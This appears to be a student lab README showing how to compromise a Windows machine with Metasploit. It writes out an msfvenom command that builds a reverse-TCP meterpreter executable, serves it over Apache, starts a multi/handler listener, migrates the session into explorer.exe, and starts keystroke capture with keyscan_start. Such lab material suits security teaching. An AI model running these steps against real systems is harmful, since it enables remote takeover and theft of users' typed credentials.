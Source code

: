 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135930.png>)
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135937.png>)
copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
Check the status of apache2
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135942.png>)
Invoke msfconsole:
## OUTPUT:
![alt text](<Screenshot 2025-04-26 135948.png>)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT :
![alt text](<Screenshot 2025-04-26 135953.png>)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUPUT :
![alt text](<Screenshot 2025-04-26 135958.png>)
WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT:
![alt text](<Screenshot 2025-04-26 140006.png>)
## DOWNLOAD OUTPUT:
![alt text](<Screenshot 2025-04-26 140014.png>)
## COME BACK TO PARROT:
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
## OUTPUT :
![alt text](<Screenshot 2025-04-26 140020.png>)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT :
![alt text](<Screenshot 2025-04-26 140027.png>)
## WINDOWS OUTPUT :
![alt text](<Screenshot 2025-04-26 140035.png>)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![alt text](<Screenshot 2025-04-26 140043.png>)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
